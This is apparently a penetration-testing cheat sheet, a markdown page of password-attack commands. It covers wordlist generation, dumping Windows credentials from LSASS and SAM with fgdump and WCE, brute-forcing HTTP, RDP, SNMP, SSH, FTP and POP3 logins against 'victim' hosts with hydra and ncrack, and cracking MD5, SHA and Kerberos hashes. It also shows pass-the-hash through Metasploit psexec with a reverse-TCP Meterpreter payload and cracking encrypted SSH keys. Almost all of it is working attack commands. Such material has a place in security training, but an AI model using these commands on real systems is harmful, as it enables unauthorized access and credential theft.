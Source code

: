 - [Password generator](#Password-generator)
- [Windows](#Windows)
- [Password cracking](#Password-cracking)
- [Password hash cracking](#Password-hash-cracking)
- [Pass the hash](#Pass-the-hash)
- [SSH key cracking](#SSH-key-cracking)
- [tools](#tools)
 
# Password generator

Crunch: 
  - is a wordlist generator where you can specify a standard character set or a character set you specify.

- crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
- crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
- special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
  
Cewl:
- cewl <victim_www_url> -d [num] -m [num] -w [file.txt]
------------------------------------------------------------------------------------------------------------------------
# Windows  

- pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

- WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***
------------------------------------------------------------------------------------------------------------------------
# Password cracking

- HTTP
```
medusa -h [url] -u [user_name] -p [password_file.txt] -M http
- hydra [target_url] -l [user_name] -P [password_file] https-post-form 
/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
- RDP
```
ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]
```
- SNMP 
``` 
hydra -P [password-file.txt] -v [victim_ip] snmp
```
- SSH 
```
hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh
```
- FTP 
```
hyrda -L [user_file] -p [password] [victim_ip] ftp
```
- POP3 
```
hyrda -L [user_file] -P [password_file.txt] [victim_ip] -s [victim_port] -t 50 -I pop3

Usefull flag
- -vV : verbose mode
- -e nsr : login as password or login as password in reversed order etc
- -t : threads
```
------------------------------------------------------------------------------------------------------------------------
# Password hash cracking

- Hash identifier
```
usage: 

hash-identifier
```
- MD5
```
john --format=raw-md5 --wordlist=rockyou.txt [hash.file]
```
- SHA1
```
john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]
```
- SHA256
```
john --format=raw-sha256 --wordlist=rockyou.txt [hash.file]
```
- SHA512
```
john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]
```
- krb5tgs 
```
hashcat -m 13100 --force -a 0 hashes.file passwords.txt 

john --format=krb5tgs --wordlist=passwords.txt hashes.file
```
- AS REP
```
john --wordlist=passwords_kerb.txt hashes.file

hashcat -m 18200 --force -a 0 hashes.file passwords.txt
```
------------------------------------------------------------------------------------------------------------------------
# Pass the hash

- Dump the contents of local SAM file, which contains the hashed(NTLM) passwords for every local account on the machine
```
meterpreter> hashdump
```

- psexec via msfconsole
```
msf> search psexec

msf> use exploit/windows/smb/psexec

msf> set payload widnows/meterpreter/reverse_tcp
msf> set LHOST <your_ip>
msf> set LPORT <your_port>
msf> set RHOST <target_ip>
msf> set SMBPass e.g (e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c)
msf> exploit
```

------------------------------------------------------------------------------------------------------------------------

# SSH key cracking

#### Cracking encrypted private key
- Tool: ssh2john.py
```
ssh2john.py encrypted-private-key > private-key.john
```

- Tool: john
```
john --wordlist=/usr/share/wordlists/rockyou.txt private-key.john
```

#### Unencrypted copy of the key
- Tool: openssl
```
openssl rsa -in encrypted-private-key -out id_rsa
```

- Tool: chmod
```
chmod 600 id_rsa
```

#### Login with id_rsa
```
ssh -i id_rsa user-name@<ip>
```

------------------------------------------------------------------------------------------------------------------------
# tools
- https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
